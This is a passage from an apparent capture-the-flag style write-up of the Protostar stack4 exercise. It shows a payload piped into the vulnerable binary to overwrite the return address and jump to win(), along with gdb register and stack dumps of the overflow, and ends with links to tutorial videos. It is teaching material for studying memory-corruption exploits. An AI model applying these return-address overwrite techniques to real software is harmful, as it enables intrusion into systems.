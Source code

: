 Submitting the payload with newly crafted address:
```bash
$ python /tmp/payl.py > /tmp/payl
$ ./stack4 < /tmp/payl 
code flow successfully changed
```

To briefly summarize in this last piece of code, we are not modifying the "old ebp", redirect the execution of `ret` instruction to `win()`, and redirect `ret` instruction back to `__libc_start_main+230`


Input with 64 bytes
```as
(gdb) c
Continuing.
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO
eax            0xbffff770	-1073744016
ecx            0xbffff770	-1073744016
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff760	0xbffff760
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x804841d	0x804841d <main+21>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x42424242	0x43434343	0x44444444
0xbffff780:	0x45454545	0x46464646	0x47474747	0x48484848
0xbffff790:	0x49494949	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c
0xbffff7a0:	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f	0xb7fd7f00
0xbffff7b0:	0x08048430	0x00000000	0xbffff838	0xb7eadc76
0xbffff7c0:	0x00000001	0xbffff864	0xbffff86c	0xb7fe1848
0x804841d <main+21>:	leave  
0x804841e <main+22>:	ret    
0x804841f:	nop

Breakpoint 2, main (argc=1, argv=0xbffff864) at stack4/stack4.c:16
16	in stack4/stack4.c
```

## See Also

"Buffer Overflows can Redirect Program Execution - bin 0x0D". https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14.

"do you know how "return" works under the hood? (are you SURE?)".https://www.youtube.com/watch?v=e46wHUjNDjE.